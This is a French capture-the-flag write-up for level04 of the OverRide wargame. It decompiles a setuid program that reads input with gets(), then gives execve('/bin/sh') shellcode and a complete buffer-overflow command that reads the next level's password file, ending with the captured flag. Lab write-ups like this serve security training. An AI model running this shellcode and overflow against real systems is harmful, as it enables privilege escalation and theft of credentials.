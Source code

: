 # OverRide : [level04]

### Observation :
En arrivant sur le level04 on trouve un exécutable nommé level04.\
Quand nous essayons de le lancer cela nous demande un shellcode puis écrit "child is exiting...". \
Regardons donc avec gdb ou un decompilateur.

---

#### Source décompilée:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int stat_loc; // [esp+1Ch] [ebp-9Ch] BYREF
  char s[128]; // [esp+20h] [ebp-98h] BYREF
  int v6; // [esp+A0h] [ebp-18h]
  int v7; // [esp+A4h] [ebp-14h]
  int v8; // [esp+A8h] [ebp-10h]
  __pid_t v9; // [esp+ACh] [ebp-Ch]

  v9 = fork();
  memset(s, 0, sizeof(s));
  v8 = 0;
  stat_loc = 0;
  if ( v9 )
  {
    do
    {
      wait(&stat_loc);
      v6 = stat_loc;
      if ( (stat_loc & 0x7F) == 0 || (v7 = stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      v8 = ptrace(PTRACE_PEEKUSER, v9, 44, 0);
    }
    while ( v8 != 11 );
    puts("no exec() for you");
    kill(v9, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(s);
  }
  return 0;
}
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | |


#### Conclusions:

----
Résolution:
----



#### Injection:
```asm
# La fonction injectée appelle <fork>:

0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  b0 02                   mov    al,0x2
5:  cd 80                   int    0x80
```

```asm
# La fonction injectée appelle <system> avec '/bin/sh' en paramètre:

0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 53                      push   ebx
11: 89 e1                   mov    ecx,esp
13: 99                      cdq
14: b0 0b                   mov    al,0xb
16: cd 80                   int    0x80
```



#### Commande:
```bash
echo $(echo $(unset $(env | cut -d= -f1); (/usr/bin/python -c "print('\x31\xc0\x50\xb0\x02\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\xFF'*(156 - 31) + '\xff\xff\xdd\xa0'[::-1])" ; /bin/echo '/bin/cat /home/users/level05/.pass') | /home/users/level04/level04 ))
```

**Flag :** 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

